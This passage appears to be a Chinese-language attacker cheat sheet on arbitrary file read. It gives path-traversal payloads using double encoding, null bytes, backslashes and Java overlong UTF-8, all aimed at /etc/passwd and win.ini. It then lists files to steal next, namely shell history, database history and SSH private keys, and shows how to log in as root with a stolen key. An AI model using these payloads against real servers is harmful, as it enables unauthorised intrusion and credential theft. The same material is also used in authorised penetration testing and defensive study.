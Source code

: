 2. 二次编码(%25)  
    ?filename=..%252F..%252F..%252F..%252Fetc%2Fpasswd
    
3. 加入+  
    ?filename=.+./.+./bin/redacted.dll
    
4. %00  
    ?filename=.%00./file.php
    /etc/passwd%00.jpg
    
5. \ 
    ?filename=..%5c..%5c/windows/win.ini`
    
6. Java %c0%ae 安全模式绕过  
    ?filename=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
### 用户目录下的敏感文件

```
.bash_history 
.zsh_history 
.psql_history 
.mysql_history 
.profile 
.bashrc 
.gitconfig 
.viminfo 

任意文件读取/etc/passwd 
提取passwd第一列，即root等一系列用户名 
读history：../../root/.bash_history 
暴破所有用户的.bash_history：../../../home/§root§/.bash_history
```
历史命令重点关注出现的==密码、路径、配置文件路径、其他关联IP、日志文件、war包、备份文件路径等等==，可进一步读取或利用。  
PS：如要下载文件，可能会导致过大文件下载失败，可以使用wget进行下载，比如catanlina.out日志文件、war包、备份文件等等

### 主机凭证文件

**私钥文件**

```
/root/.ssh/id_rsa 私钥 

/root/.ssh/authorized_keys 公钥存储文件 

/root/.ssh/id_rsa.keystore 
/root/.ssh/known_hosts //记录每个访问计算机用户的公钥
```
私钥文件如果没有设定密码保护，便可直接获取到进行登录到服务器，或使用xshell等软件选择证书登录。  
ssh -i id_rsa root@IP地址

**系统密码**

- `/etc/passwd`
```
可以看到哪些用户可以登录

root:x:0:0:root:/root:/bin/bash 
bin:x:1:1:bin:/bin:/sbin/nologin 
...... 

用户名:口令:用户标识号:组标识号:注释性描述:主目录:登录S
```
